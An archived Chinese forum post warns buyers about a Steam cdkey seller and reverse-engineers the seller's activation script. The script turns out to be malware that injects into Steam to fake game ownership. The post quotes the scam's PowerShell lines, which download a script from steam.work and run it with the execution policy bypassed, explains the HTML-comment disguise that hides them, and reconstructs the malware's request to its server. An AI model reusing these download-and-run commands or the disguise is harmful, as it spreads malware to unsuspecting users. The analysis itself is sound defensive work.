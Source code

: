 icon:: 💾
author:: MicroBlock
created:: [[20240817]]
exclude-from-graph-view:: true
source:: https://www.52pojie.cn/
type:: archives-web

- 结论放在前面：如果买 cdkey 买到让你要输入某个脚本再激活的，那别去管他，立刻退货并举报商家！原因就直接贴我写这个就行...
- 该商家在使用 Steam 注入病毒假入库来进行诈骗，证据： https://www.52pojie.cn/thread-1949495-1-1.html 请立即退款，我将会向消费者协会说明本店情况！
- ## 正文
- 刚刚去买了个 cdkey 准备送给朋友，结果一看发货介绍感觉有点不对劲：
- ![](https://attach.52pojie.cn/forum/202407/30/145827ao6s9k6ys3bc0c7k.jpg)
- 啥啊，irm iex 这不是经典的从网络获取脚本并执行的操作吗，怎么领个激活码还要搞这？
- 我一开始还以为是自动安装加速器，商家还怪好的捏，直到我激活不了，把这脚本拉下来看了看：
- ![](https://attach.52pojie.cn/forum/202407/30/145830nke1r0snral6aans.jpg)
- ![](https://attach.52pojie.cn/forum/202407/30/145840hp7uuxu5dfu1t9p1.png)
- 好家伙 这玩意整了个极其有欺骗性的东西，因为powershell的多行注释正好是<# #>，正好 HTML 文件的开头是
- <!DOCTYPE html> 这鸟人给他改成 <#!DOCTYPE html> 就变成 powershell
- 的注释了.. 我都差点没看出来..网页还做了 UA 判断和跳转，真是够阴损
- 那么真实的代码就只剩两行了：
  - `irm steam.work/pwsDwFile/new1` `-OutFile` `x.ps1`
  - `powershell.exe` `-ExecutionPolicy` `Bypass ``-File` `x.ps1;`
- 看得出来，又是下脚本...我们把这玩意也下下来看一眼：
- ![](https://attach.52pojie.cn/forum/202407/30/145833we4z5wqcr1w4w51r.jpg)
- 我怎么兑换个激活码你还给我注入上 Steam了！有病啊！
- 那么我们便不得不好奇一下注入的文件里到底干了啥呢，我们下下来拖进静态分析，但是里面几乎啥都没有，只有两个有意思的地方：
- 1. 把危险函数 VirtualAlloc 等 伪装成普通函数：
- ![](https://attach.52pojie.cn/forum/202407/30/145838c3nhkbmqphhcbhb1.jpg)
- 2. 里面有 zlib.inflate （图里打错了）
- ![](https://attach.52pojie.cn/forum/202407/30/145835p9o3wu9zsbc3119u.jpg)
- 看上去他是在尝试现场解压某种payload来执行啊！我们直接开一个 Windows Sandbox 来动态调试一下：
- 打开 x32dbg，在 zlib.inflate处打断点，很容易就拿到解压出的东西
- ![](https://attach.52pojie.cn/forum/202407/30/145956yfkoq8e4m1mkm21f.jpg)
- > [eax + 0x4 * 3] -> 解压出缓冲区指针
- [eax + 0x4 * 5] -> 解压出数据长度
- 不看不知道，一看 MZ 开头，PE格式没跑了，直接一个 savefile 把它存下来，拖进 Binary Ninja
- 这个文件也有点诡异，有三个 .text 段里面两个都是空的，还有一个 XRef 几乎扫不出来...总之先看一眼 IAT：
- ![](https://attach.52pojie.cn/forum/202407/30/145847gg0xazz6azah3baz.png)
- 怎么还引用了一个 winsqlite 啊，看起来像是打算操作 Steam 的数据库？
- ![](https://attach.52pojie.cn/forum/202407/30/145845mlrjrlvr5p9bbtef.png)
- 这里还有一些十足诡异的找不到引用的函数，看上去是加密的字符串
- （接前文）
- 那么自然我们现在应该给导出的仅有的几个函数打一下断点看看；首当其冲怀疑的就是这个网络函数
- 直接先在该 dll 加载前打断点，暂停后在InternetOpenA打断点；发现有反调试检测，用 ScyllaHide Basic 轻松过掉
- 然后就断下来了，我们来看一眼
- ![](https://attach.52pojie.cn/forum/202407/30/215523o7u1kxxujrgrugg3.png)
- 直接找到病毒开始请求配置的地方和端点了，大收获啊；但是我们直接访问 http://api.steam.work/api/integral/vs
- ，他是返回 403 Unauthorized 的，看来可能有什么 UA，POST body之类的，继续下断点查一下
- 在InternetOpenA InternetConnectA HttpOpenRequestA HttpSendRequestA，成功还原整个请求：
- HTTP1.1 POST http://api.steam.work/api/integral/vs
- Referer: version
- user-agent: steam
- {"sign":"ckv"}
- ![](https://attach.52pojie.cn/forum/202407/30/223611wz4vask1886h1rqz.png)
- 返回值拿到手，只有一串不知道是什么的 hex；我们先再看看其他几个点
- sqlite这边下断点以后啥也没有，可能是激活的时候才会操作（我用的Windows Sandbox，不知道为什么打不开Steam……）
- 于是转移到一台实机上继续分析。
- 直接拿它给的虚假激活码来激活，可以直接断在 HTTP 请求点
- 把请求掏出来看看：
- ![](https://attach.52pojie.cn/forum/202407/30/232903zcb68eeeo4cbzc6c.png)
- 看起来是成功了，返回一个 code 和一个 data；
- 这个 ID 又是啥？
- ![](https://attach.52pojie.cn/forum/202407/30/233035wttovtaonjs6vm6v.png)
- 哦，哈迪斯的 App ID
- 那么接着调试，在一通奇奇怪怪的网络请求之后，它下下来一个 8k 的文件到 steam 的目录里
- C:\Program Files (x86)\Steam\package\data
- ![](https://attach.52pojie.cn/forum/202407/30/234856lkzexundx2yad8bn.png)
- 这是干啥的呢？看看我们正常的 Steam 这里有什么...居然什么都没有！
- 那么就说明，这个文件是病毒专用的了；我们直接 ImHex 打开
- ![](https://attach.52pojie.cn/forum/202407/30/235712yzh51mmbzcnc57yd.png)
- 居然是个数据库！怪不得他要链 winsqlite；那这个数据库里有啥？我们丢进查看器：
- ![](https://attach.52pojie.cn/forum/202407/30/235849hgwxgdgj3iq30uvz.png)
- 有个appid，和两个不认识的hex；把键名拿去搜搜看：
- ![](https://attach.52pojie.cn/forum/202407/31/000011c4et5p5r1ara5pe1.png)
- ![](https://attach.52pojie.cn/forum/202407/31/000018c50rr0c0nmmc1cle.png)
- 原来是这样！这是一种叫做“清单入库”的已经广为流传的Steam免费入库方式，结果被不法商家用于欺诈消费者，十分恶劣！
- 还有一些相关信息，大家可以自行查看→
- https://github.com/pjy612/SteamManifestCache/discussions/374
- https://github.com/pjy612/SteamManifestCache/wiki/DecryptionKey |